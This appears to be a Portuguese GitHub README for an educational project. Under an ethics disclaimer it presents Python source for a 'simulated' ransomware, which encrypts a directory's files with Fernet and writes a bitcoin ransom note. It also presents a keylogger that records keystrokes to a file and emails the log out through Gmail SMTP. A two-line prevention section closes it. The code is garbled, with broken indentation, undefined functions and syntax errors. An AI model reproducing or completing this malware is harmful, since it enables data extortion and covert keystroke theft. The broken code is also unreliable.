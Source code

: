 # Aprendizado e Ética
Este projeto foi desenvolvido exclusivamente para fins educacionais e de pesquisa. Ele simula o comportamento de malwares como ransomware e keylogger em um ambiente controlado e seguro, com o objetivo de:
- Demonstrar técnicas básicas de criptografia e captura de entrada.
- Promover o entendimento sobre como malwares operam.
- Incentivar a reflexão sobre medidas de defesa e segurança cibernética.
⚠️ Importante:
Este código não deve ser utilizado em ambientes reais, nem com a intenção de causar danos, invadir sistemas ou violar a privacidade de terceiros. O uso indevido pode configurar crime conforme a legislação vigente.
Recomenda-se executar este projeto apenas em máquinas virtuais ou ambientes isolados (sandbox), sem conexão com redes externas ou dados sensíveis.

# Ransomware-Simulado: criar arquivos de teste, implementar um script que criptografa e descriptografa, além de gerar mensagem de “resgate”.

from cryptography.fernet import Fernet
import os

# Gerar uma chave de criptografia e salvar
key = Fernet.generate_key()
with open("chave.key", "wb") as key_file:
    key_file.write(key)

fernet = Fernet(key)

# Carregar a chave salva
def carregar_chave():
    return open("chave.key" , "rb").read()

# Criptografar um único arquivo
 def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
     with open(arquivo, "rb") as file:
    dados = file.read()

   # Encontrar arquivos para criptografar
   def encontrar_arquivos(diretorio):
        lista = []
        for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
        caminho = os.path.join(raiz, nome)
       if nome != "ransoware.py" and not nome.endswith(".key"):
        lista.append(caminho)
        return lista

  #  Mensagem de resgate 
     def criar_mensagem_resgate():
         with open("LEIA ISSO.txt", "w") as f:
      f.write("Seus arquivos foram criptografados!\n")
      f.write("Envia 3 bitcoin para o endereço X e envie o comprovante!\n")
      f.write("Depois disso, enviaremos a chave para você recuperar seus dados!\n")
                
  # Execução principal
    def main():
       gerar_chave()
       chave = carregar_chave()
       arquivos = encontrar_arquivos("test_files")
       for arquivo in arquivos:
       criptografar_arquivo(arquivo, chave)
       criar_mensagem_resgate()
      print("Ransoware executado! Arquivos criptografados!")

      if__name__== "__main__":
        main()


# Keylogger Simulado: programar captura de teclas em arquivo .txt, torná-lo mais furtivo e implementar envio automático por e-mail

from pynput import keyboard

IGNORAR = {keyboard.shift,
keyboard.Key.shift_r,
keyboard.Key.ctrl_l,
keyboard.Key.ctrl_r
keyboard.alt_r,
keyboard.Key.alt_l,
keyboard.Key.caps_lock,
keyboard.Key.cmd
 }

def on_press(key):
 try:  
  # se for uma tecla "normal" (letra, número, símbolo) 
    with open(log.txt, "a", encoding="uft-8") as f:
f.write(key.char)

except.AttributeError:
    with open("log.txt", "a", encoding="utf-8) as f:
     if key == keyboard.key.space:
        f.write(" ")
         elif key == keyboard.key.enter:
         f.write("\n")
        elif key ==keyboard.key.tab:
         f.write("\t")
        elif key == keyboard.key.backspace:
         f.write(" ")
         elif key == keyboard.key.esc:
         f.write("[ESC] ")
         elif key in IGNORAR:
            pass
      else:
        f.write(f"[{key}] ")
  with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

 # Envio por e-mail

def enviar_email():
    with open("log.txt", "r") as f:
        conteudo = f.read()
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login("pyy@gmail.com", "senha")
    server.sendmail("pyy@gmail.com", "destino@gmail.com", conteudo)
    server.quit()

 # Medidas de Prevenção
- Antivírus: Detecta e bloqueia malwares conhecidos.
- Firewall: Controla tráfego de rede suspeito.

# Boas práticas
- Atualizações regulares de software.
- Backup frequente dos dados.




